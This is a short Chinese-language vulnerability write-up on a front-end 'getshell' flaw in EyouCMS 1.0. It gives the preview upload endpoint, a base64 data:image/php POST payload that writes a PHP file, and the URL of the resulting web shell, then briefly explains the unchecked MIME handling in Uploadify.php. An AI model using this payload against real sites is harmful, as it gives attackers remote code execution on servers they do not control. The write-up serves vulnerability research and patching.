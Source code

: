Eyoucms 1.0 前台getshell
========================

一、漏洞简介
------------

官网：http://www.eyoucms.com/download/Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

二、漏洞影响
------------

三、复现过程
------------

老样子：先讲如何利用

    url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview

    构造: <?php phpinfo;

![](resource/Eyoucms1.0前台getshell/media/rId24.png)

    post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==

![](resource/Eyoucms1.0前台getshell/media/rId25.png)

Shell:
http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![](resource/Eyoucms1.0前台getshell/media/rId26.png)

![](resource/Eyoucms1.0前台getshell/media/rId27.png)

### 原理分析

漏洞文件： eyoucms1.0\\application\\api\\controller\\Uploadify.php漏洞函数：preview()

![](resource/Eyoucms1.0前台getshell/media/rId29.png)

![](resource/Eyoucms1.0前台getshell/media/rId30.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的
表示data:image/ 居然还可以不是图片？好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/
只能是图片。

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh
